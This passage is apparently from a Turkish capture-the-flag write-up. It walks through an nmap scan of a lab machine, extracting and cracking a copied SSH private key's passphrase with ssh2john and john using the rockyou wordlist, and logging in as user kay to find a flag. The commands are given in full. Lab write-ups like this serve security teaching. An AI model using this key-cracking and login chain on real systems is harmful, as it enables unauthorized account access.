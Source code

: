 ```nmap  -p 22,80,139,445 -sC -Pn -sV -T5  10.10.156.243```
    <div style="text-align: center;">
    <img src="images/11-kayid.png" alt="3" width="400" >
    </div>
<br>
</p>
<p>
    <h4>John:</h4>
ssh2john ile sertifikanın bir şifresi var ise şifresinin hashini hash.txt dosyasına yazdırılması için çalıştırılan kod sonucunda bir hash.txt dosyası oluştuğu görüldü (eğer sertifika şifresi olmasaydı kod sonucu olarak ‘Hash not found’ mesajı döner).


<br>
    <div style="text-align: center;">
    <img src="images/13-ssh2john.png" alt="3" width="300" >
    </div>
<br>
</p>
<p>
    Oluşturulan hash.txt içerisindeki hash’i çözebilmesi için ‘john’ aracı kullanıldı ve kopyalamış olduğumuz kay_id sertifikasının şifresi elde edildi.
<br>
    <div style="text-align: center;">
    <img src="images/14-john.png" alt="3" width="500" >
    </div>
<br>

```
ssh2john sertifika_ismi>>hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
</p>
<p>
    Kopyalanmış olan sertifikaya ‘600’ yetkisi verildikten sonra Kay kullanıcısı ile hedef makineye ssh servisi ile bağlantı sağlandı
<br>
    <div style="text-align: center;">
    <img src="images/15-connectKay.png" alt="3" width="500" height="250" >
    </div>
<br>

```
chmod 600 sertifika_ismi

ssh -i sertifika_ismi kay@10.10.156.243
```
</p>

<p>
    Kay kullanıcısı ile kendi diziinide yer alan pass.bak içesindeki bayrak yakalandı. 
<br>
    <div style="text-align: center;">
    <img src="images/16-passbak.png" alt="3" width="400" >
    </div>
<br>
</p>
